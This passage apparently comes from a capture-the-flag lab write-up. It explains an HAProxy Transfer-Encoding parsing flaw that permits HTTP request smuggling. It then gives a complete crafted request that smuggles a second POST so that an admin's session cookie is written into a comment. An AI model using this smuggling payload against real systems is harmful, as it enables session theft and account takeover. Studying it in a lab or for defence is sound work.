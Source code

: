 In this case, the Transfer-Encoding is not detected by HAProxy, and so the Content-Length is used (and as such, the `X` is forwarded because it falls within the 6 bytes of body size specified). However, because the Transfer-Encoding header remains in the request sent to the backend, it means that if a backend server manages to parse the Transfer-Encoding header and proceeds to treat the request as a TE encoded request, a desync could occur and the backend TCP socket could be poisoned (in this case, with an "X"). This could then lead to HTTP request smuggling if the connection is being reused for other requests. So it can be said that this HAProxy bug is toothless without a buggy backend, but the backend's bug wouldn't amount to smuggling without the help of the HAProxy bug, if it's sitting behind HAProxy.(As mentioned in th [link](https://nathandavison.com/blog/haproxy-http-request-smuggling))

----------------------------------------------------------------------------------------------------------------

So These are the sections we want.\
Let's build a request to smuggle the haproxy on the comments page.\
We want to see the admin's session in the comments, so we should smuggle the request in a way that fits into our requests remaning POST Body

```http
POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Length: 372
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.10.225:5000/home
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: lang=en-US; i_like_gitea=906c61cafe6d5d0f; _csrf=Ps_gkPPooWeSTdNs3aw3bGEmM2I6MTYyNTc0MzUxMzE2MjYxNDMwMQ; session=eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ.YOblEg.gs9_qlqIwjECpVBnY92PjialYtg
Connection: keep-alive
Transfer-Encoding: chunked

1
Z
0

POST /comment HTTP/1.1
Host: 10.10.10.225:5000
Content-Length: 400
Content-Type: application/x-www-form-urlencoded
Cookie: lang=en-US; i_like_gitea=906c61cafe6d5d0f; _csrf=Ps_gkPPooWeSTdNs3aw3bGEmM2I6MTYyNTc0MzUxMzE2MjYxNDMwMQ; session=eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ.YOblEg.gs9_qlqIwjECpVBnY92PjialYtg
Connection: keep-alive

msg=Admin's+Session+%3a+
```

